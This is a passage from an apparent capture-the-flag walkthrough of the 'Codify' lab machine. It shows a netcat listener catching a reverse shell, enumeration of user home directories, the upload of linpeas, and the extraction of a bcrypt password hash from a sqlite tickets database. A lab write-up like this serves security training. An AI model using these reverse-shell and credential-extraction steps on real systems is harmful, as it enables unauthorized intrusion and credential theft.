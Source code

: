 ![](https://alternume0.github.io/assets/img/codify_enumeration_03.jpg)

**In parallel we will  run the listener to capture the reverse shell**

```bash 
└─# nc -nlvp 443                            
listening on [any] 443 ...
connect to [10.10.14.99] from (UNKNOWN) [10.10.11.239] 55856
bash: cannot set terminal process group (1255): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ whoami
whoami
svc
svc@codify:~$ 
```

**We get a shell owned by svc user**, and that user does not allow to get the flag.

There is another user under home, “joshua”,  so we will need to pivote to get joshua permissions

```bash 
svc@codify:/home$ ls -la
total 16
drwxr-xr-x  4 joshua joshua 4096 Sep 12 17:10 .
drwxr-xr-x 18 root   root   4096 Oct 31 07:57 ..
drwxrwx---  4 joshua joshua 4096 Jan 13 22:54 joshua
drwxr-x---  4 svc    svc    4096 Jan 14 05:27 svc
svc@codify:/home$ cd svc
svc@codify:~$ ls -la
total 32
drwxr-x--- 4 svc    svc    4096 Jan 14 05:27 .
drwxr-xr-x 4 joshua joshua 4096 Sep 12 17:10 ..
lrwxrwxrwx 1 svc    svc       9 Sep 14 03:28 .bash_history -> /dev/null
-rw-r--r-- 1 svc    svc     220 Sep 12 17:10 .bash_logout
-rw-r--r-- 1 svc    svc    3771 Sep 12 17:10 .bashrc
drwx------ 2 svc    svc    4096 Sep 12 17:13 .cache
drwxrwxr-x 5 svc    svc    4096 Jan 13 22:37 .pm2
-rw-r--r-- 1 svc    svc     807 Sep 12 17:10 .profile
-rw-r--r-- 1 svc    svc       0 Jan 14 05:28 pwned
-rw-r--r-- 1 svc    svc      39 Sep 26 10:00 .vimrc
```

## PRIV ESCALATION TO JOSHUA

We upload linpeas to cofiy and we run it. The output provide value information like an interesting database, tickets.db.

Running **file tickets.db** we find out that this DB is a  sqlite database.

We download it to our local machine and we open it with sqlite3

```bash 
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
sqlite> 
```
